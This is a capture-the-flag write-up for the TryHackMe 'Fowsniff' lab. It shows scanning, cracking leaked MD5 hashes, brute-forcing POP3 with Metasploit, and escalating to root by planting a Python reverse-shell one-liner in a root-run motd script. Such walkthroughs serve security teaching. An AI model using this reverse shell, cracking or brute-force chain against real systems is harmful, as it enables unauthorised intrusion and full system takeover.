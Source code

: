 ```yaml
---
layout: post
title: "Fowsniff CTF"
date: 2022-10-20
categories: [Tryhackme, Easy-THM]
tags: [rustscan, twitter, pastebin, hashcat, metasploit, find]
image: ../../assets/img/posts/fowsniffctf.png 

---
```


## Description

Hack this machine and get the flag. There are lots of hints along the way and is perfect for beginners!

|**Room**|[Fowsniff CTF](https://tryhackme.com/room/ctf)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[ben](https://tryhackme.com/p/ben)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.166.5 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/186079580-761f081f-0e8c-47a3-a1d4-b227485ba9d3.png)

we got some open ports. Lets scan them in detail with nmap,

```bash
nmap -sC -sV -p22,80,110,143 10.10.166.5 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/186079625-9365f56d-4c15-475e-ba68-78696e28d9ac.png)

Result scan shows that port 22 is running ssh service, port 80 is running apache webserver, port 110 running is pop3 service, port 143 is running imap service. Let's start enumerating port 80.

Visit http://10.10.166.5,

![image](https://user-images.githubusercontent.com/67465230/186079692-c119c3d7-3598-4f68-8212-9d9f6ea88e07.png)

We landed on a webpage of Fowsniff corp. of which the website is temporarily out of service.

Scrolling down, there is a message from developers that Fowsniff Corp has suffered data breach, but, there is mention of fowsniff corp's twitter account,

![image](https://user-images.githubusercontent.com/67465230/186079746-4ba09c34-e89e-4816-87b5-62e6a9704b6e.png)

_Things might get interesting if I found something juice there._

Upon visiting the **@fowsniff** twitter account,

![image](https://user-images.githubusercontent.com/67465230/186079782-c8b843cf-4e06-4b90-8ea1-70311a766de4.png)

we got a post of pastebin.com which contain all dumped passwords.

Upon visiting mentioned link of pastebin.com, we got some account credentials, so I decided to look at the source code (_for tidyness reason_),

![image](https://user-images.githubusercontent.com/67465230/186079819-047c41b4-2b58-4de0-a3bb-cee1a508e3d2.png)

There is even mention of hashing algorithm that is deprecated, _MD5_.

With hashcat, we can crack the hashes,

```bash
hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt -O
```

![image](https://user-images.githubusercontent.com/67465230/186079848-9bff1afd-2173-4ef4-a4a5-541690483799.png)

all password hashes except one gets cracked. Copy all the username in users file and passwords in pass file.

Back into twitter window, scrolling till last, there is a sysadmin called stone which password hash has been dumped on post itself,

![image](https://user-images.githubusercontent.com/67465230/186079872-f89fca2e-892f-48b0-96d6-f8ad2b60f106.png)

Now that we have cracked the credentials, we now have to find the login credentials in order to mail service. We are going to utilize what's given service called POP3.

>Post Office Protocol version 3 (POP3) is an mail protocol used to retrieve mail from a remote server to a local email client. POP3 copies the mail from the remote server into the local mail client. Optionally, mail is deleted after it is downloaded from the server.

So we are going to use metasploit module,

```bash
msfconsole -q
search pop3 login
use auxiliary/scanner/pop3/pop3_login
options
```

![image](https://user-images.githubusercontent.com/67465230/186079926-c0b1b0e1-a417-4a7e-bddf-32c1817318a7.png)

setting `options`:
- **set rhosts 10.10.166.5**
- **set user_file users**
- **set pass_file pass**

Running the module and after sometime, we will get our credentials,

![image](https://user-images.githubusercontent.com/67465230/186079969-b3d233b3-a4a1-47df-9daa-0f15f0faa0bc.png)

Now, we can access the pop3 service using netcat,

```bash
nc 10.10.138.188 110
```

![image](https://user-images.githubusercontent.com/67465230/186080006-6ea4c799-7a98-4bea-a9b2-0cd69d81a5bc.png)

we get in after authentication.

We can take a look at cheatsheet of [POP3 commands](https://www.suburbancomputer.com/tips_email.htm)
We can list the messages using,

```bash
LIST
```

![image](https://user-images.githubusercontent.com/67465230/186080034-58b39156-3d02-49ba-b2a3-33d4d256dad3.png)

there are 2 messages. Let's take a look at them,

We can retrieve the mail message using,

```bash
RETR 1
```

![image](https://user-images.githubusercontent.com/67465230/186080083-6bd90192-d65a-4af5-ade9-2f06a909a72f.png)

looking at the mail which is sent by stone user and there is mention of temporary password of ssh service.

Using stone and temporary password to login via ssh, it fails. So I decided to look to next mail message,

```bash
RETR 2
```

![image](https://user-images.githubusercontent.com/67465230/186080115-e390454c-c709-4066-a2c5-376ee3ff9c1d.png)

looking at another mail, sender of this mail is baksteen user, _which might be very interesting to us_.

Now, trying to login via ssh,

```bash
ssh baksteen@10.10.138.188
```

![image](https://user-images.githubusercontent.com/67465230/186080144-40c0dc69-b422-4c14-95b4-28d9cf47a688.png)

we got in! From here we can get the user flag.

Now, given in the question, we gotta find cube.sh script,

```bash
find / -name cube.sh -type f 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186080176-8486f701-0648-4382-a970-5d218f8c0e7c.png)

the path for the script is **/opt/cube/cube.sh**.

Let's take a look at script,

![image](https://user-images.githubusercontent.com/67465230/186080210-cf9cc89d-7077-4f91-96d9-40dac9ac2fdf.png)

Well this is the same banner we looked upon when we get logged in.

Well we can append python one-liner reverse shell in this script.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.207",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image](https://user-images.githubusercontent.com/67465230/186080245-ec31b60f-ebcf-490a-b023-6d15c8ec583e.png)

Now, we need to executables in "/etc/update-motd.d/" directory which might run this script,

![image](https://user-images.githubusercontent.com/67465230/186080299-bcb65ef4-aec5-4185-a2d4-5f0f1abd866d.png)

File **00-header** runs this shell script.

>The 00-header file composes the line describing the OS release by sourcing the /etc/lsb-release file and using what it finds to construct a message like this: Welcome to Ubuntu 17.04 (GNU/Linux 4.10.0-32-generic i686)

Viewing the content of 00-header file,

![image](https://user-images.githubusercontent.com/67465230/186080364-52ba7c25-fb77-47f2-9141-35501a0a660c.png)

we can confirm that it will run the cube.sh script. 

Now, start a netcat listener using `nc -nvlp 4444` and we will login back into ssh again,

```bash
ssh baksteen@10.10.90.6
```

![image](https://user-images.githubusercontent.com/67465230/186080401-1c2b0375-bb9c-4788-8107-ee28151ae099.png)

We got root!!

>Q. What happens here?
>A. Well, The motd (Message of the Day) daemon is responsible for displaying a message on an SSH connection and it is executed by root. So when our script is executed, so will our python reverse shell. Since we already have started netcat listener, the script will run as root, so we will get a system/root shell.